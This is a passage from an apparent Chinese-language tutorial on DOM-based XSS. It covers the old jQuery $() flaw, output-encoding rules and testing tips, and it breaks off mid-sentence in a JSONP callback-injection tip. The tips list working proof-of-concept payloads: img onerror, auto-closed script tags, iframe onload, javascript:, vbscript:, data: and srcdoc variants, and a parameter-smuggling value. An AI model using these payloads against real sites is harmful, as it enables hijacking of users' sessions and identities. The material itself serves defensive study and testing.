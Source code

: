 常见缺陷1：jQuery低版本（1.9.0以下）存在DOMXSS漏洞可导致用户身份被盗用  
![domxss_6](../pictures/domxss_6.png)  
 
(图：漏洞利用代码传入$()函数执行可触发漏洞)  

jQuery 是一个非常流行的JavaScript 库，但低版本的jQeury存在设计缺陷，导致引入低版本的jQuery文件之后，若对用户传入的参数值没有进行处理即传入$()函数中执行，且参数值中存在html标签，即$(‘`<img src=x onerror=alert()>`’)，jQuery会自动生成该html标签并加载在页面中，可导致DOMXSS漏洞。  

## 0x02 DOM-XSS通用编码方法

在"$var" 输出到&lt;script&gt; 时，应该执行一次 javascriptEncode(\xXX, \uUUUU)；其次，在document.write 输出到页面 html 页面时，要分具体情况对待：如果是输出到事件或者脚本，则要再做一次 javascriptEncode；如果是输出到 html 内容或者属性，则要再做一次 HtmlEncode。  
如下情况属于后者，即 htmlencode(jsencode($var))
``` html
<script>
var x = "$var";
document.write("<a href='"+x+"' >test</a>");
</script>
```

## 0x03 测试tips 分享
1)、只有使用合规的完整闭合的HTML区块对每个innerHTML节点进行赋值，因为这样才不会改变被重写段落之外的文档层级结构。如果格式不对，在重写发生之前输入的数据会先按照规定的语法进行强制转换。即通过DOM操作HTML时，可以使用`<script>alert(/xss/)`来代替`<script>alert(/xss/)</script>`，因为DOM会自动补全。  
2)、innerHTML只能使用类似 `<img src=1onerror=alert(1)>`这种方式来触发JS。而不能以`<script>alert(1)</script>`来触发，因为这种压根不会执行`<script>..</script>`之间的内容。  
3)、不论怎么样，因为最终javascript都会通过document.write或innerHTML将内容输出到网页中，所以我们总是有办法看到输出到哪里，要么直接 inspect dom element，要么直接看 js 源码中哪里调用了 url 的 key Value。  
4)、有时候我们的输出，最终并没有流向innerHTML或document.write，而是与eval发生了邂逅，搜索源代码和调试工具都看不到任何东西，这时可以在请求后面跟一些特殊符号如 `\`, `"`, `'` 等，看 console 报什么错误，点击定位到具体 出错的 js 代码，进一步观察。  
5)、有时候，输出还会出现在 `<iframe src="[输出]"></iframe>` 。 iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，而且可以用不同的方式法来执行。iframe payload 变形如下：  
``` html
1.1 最好懂的，onload执行js
<iframe onload="alert(1)"></iframe>

1.2 src 执行javascript代码
<iframe src="javascript:alert(1)"></iframe>

1.3 IE下vbscript执行代码，vbscript里 ' 单引号表示注释，类似JS里的//
<iframe src="vbscript:msgbox(1)"></iframe>

1.4 Chrome下data协议执行代码
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> Chrome

1.5 上面的变体
<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>

1.6 Chrome下srcdoc属性
<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```
6)、jsonp。`<script src="http://otherdomain.com/xx?callback=aa&id="+id></script>`
假如 id 参数可以由我们 的 A 请求输入的参数 b 传递进来，且js在取参数时有urldecode的操作，那么我们可以传递   
`id=%26callback=alert(1)`，这样请求的 是 `http://otherdomain.com/xx?callback=aa&id=&callback=alert(1)`，